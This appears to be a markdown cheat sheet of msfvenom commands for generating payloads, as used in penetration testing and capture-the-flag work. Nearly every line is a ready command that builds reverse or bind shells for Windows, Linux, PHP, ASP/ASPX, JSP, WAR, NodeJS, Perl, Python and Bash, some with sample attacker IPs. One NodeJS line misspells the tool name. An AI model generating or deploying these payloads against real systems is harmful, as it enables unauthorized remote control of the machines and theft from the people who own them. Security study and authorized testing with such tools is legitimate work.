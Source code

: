 # Msfvenom

## Listing

```bash
msfvenom -l #Payloads
msfvenom -l encoders #Encoders
```

## **Windows**

### **Reverse Shell**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o revshell.exe
```

### Bind Shell

```bash
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
```

## Linux

### Reverse Shell

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf #stageless
msfvenom -p linux/x64/shell/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf # staged
```

### Bind Shell

```bash
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
```

## **Web Based**

### **PHP**

```bash
$ msfvenom -p php/meterpreter_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### ASP/x

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
```

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```

### JSP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```

### WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```

### NodeJS

```bash
sfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
```

## **Script Language**

### **Perl**

```bash
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```

### **Python**

```bash
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
```

### **Bash**

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > s
```
